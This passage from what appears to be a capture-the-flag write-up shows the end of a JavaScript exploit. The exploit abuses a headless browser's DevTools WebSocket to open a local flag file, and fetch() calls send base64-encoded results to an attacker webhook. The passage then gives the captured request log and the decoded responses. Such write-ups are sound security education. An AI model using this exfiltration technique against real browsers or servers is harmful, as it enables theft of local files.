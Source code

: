 ```js
        }
      };
      ws.send(JSON.stringify(attachCommand));
    }

    if (data && data.id === 2) {
      ws.close();
    }
  };
  
  ws.onerror = (error) => {
    fetch(`${webhook}?error=${btoa(error.toString())}`);
  };
  
  ws.onclose = () => {
    fetch(`${webhook}?weclosed`);
  };
})();
```

We get a response:
```
GET /a HTTP/1.1
GET /?received=eyJpZCI6MiwicmVzdWx0Ijp7InNlc3Npb25JZCI6Ijk4NkVCQ0I4NjM1NTA5RkYxQUYzODVFQzY3NEUyMENBIn19 HTTP/1.1
GET /?gotTargetId=699F59AF8810559BCF735269079AAC78 HTTP/1.1
GET /?openedWS HTTP/1.1
GET /?received=eyJtZXRob2QiOiJUYXJnZXQuYXR0YWNoZWRUb1RhcmdldCIsInBhcmFtcyI6eyJzZXNzaW9uSWQiOiI5ODZFQkNCODYzNTUwOUZGMUFGMzg1RUM2NzRFMjBDQSIsInRhcmdldEluZm8iOnsidGFyZ2V0SWQiOiI2OTlGNTlBRjg4MTA1NTlCQ0Y3MzUyNjkwNzlBQUM3OCIsInR5cGUiOiJwYWdlIiwidGl0bGUiOiIiLCJ1cmwiOiJmaWxlOi8vL3Jvb3QvZmxhZzIudHh0IiwiYXR0YWNoZWQiOnRydWUsImNhbkFjY2Vzc09wZW5lciI6ZmFsc2UsImJyb3dzZXJDb250ZXh0SWQiOiI3RThFNDYyNkVCQjBBNUY3QkIzQkFBNEJCMUUxRTgxNCJ9LCJ3YWl0aW5nRm9yRGVidWdnZXIiOmZhbHNlfX0= HTTP/1.1
GET /?received=eyJpZCI6MSwicmVzdWx0Ijp7InRhcmdldElkIjoiNjk5RjU5QUY4ODEwNTU5QkNGNzM1MjY5MDc5QUFDNzgifX0= HTTP/1.1
GET /?weclosed HTTP/1.1
```

It's all out of order because asynchronous-y things, but we can decode the portions and get the following:
```bash
$ echo "eyJpZCI6MiwicmVzdWx0Ijp7InNlc3Npb25JZCI6Ijk4NkVCQ0I4NjM1NTA5RkYxQUYzODVFQzY3NEUyMENBIn19" | base64 -d                                                                                        
{"id":2,"result":{"sessionId":"986EBCB8635509FF1AF385EC674E20CA"}}
$ echo "eyJtZXRob2QiOiJUYXJnZXQuYXR0YWNoZWRUb1RhcmdldCIsInBhcmFtcyI6eyJzZXNzaW9uSWQiOiI5ODZFQkNCODYzNTUwOUZGMUFGMzg1RUM2NzRFMjBDQSIsInRhcmdldEluZm8iOnsidGFyZ2V0SWQiOiI2OTlGNTlBRjg4MTA1NTlCQ0Y3MzUyNjkwNzlBQUM3OCIsInR5cGUiOiJwYWdlIiwidGl0bGUiOiIiLCJ1cmwiOiJmaWxlOi8vL3Jvb3QvZmxhZzIudHh0IiwiYXR0YWNoZWQiOnRydWUsImNhbkFjY2Vzc09wZW5lciI6ZmFsc2UsImJyb3dzZXJDb250ZXh0SWQiOiI3RThFNDYyNkVCQjBBNUY3QkIzQkFBNEJCMUUxRTgxNCJ9LCJ3YWl0aW5nRm9yRGVidWdnZXIiOmZhbHNlfX0=" | base64 -d
{"method":"Target.attachedToTarget","params":{"sessionId":"986EBCB8635509FF1AF385EC674E20CA","targetInfo":{"targetId":"699F59AF8810559BCF735269079AAC78","type":"page","title":"","url":"file:///root/flag2.txt","attached":true,"canAccessOpener":false,"browserContextId":"7E8E4626EBB0A5F7BB3BAA4BB1E1E814"},"waitingForDebugger":false}}
$ echo "eyJpZCI6MSwicmVzdWx0Ijp7InRhcmdldElkIjoiNjk5RjU5QUY4ODEwNTU5QkNGNzM1MjY5MDc5QUFDNzgifX0=" | base64 -d
{"id":1,"result":{"targetId":"699F59AF8810559BCF735269079AAC78"}}
```
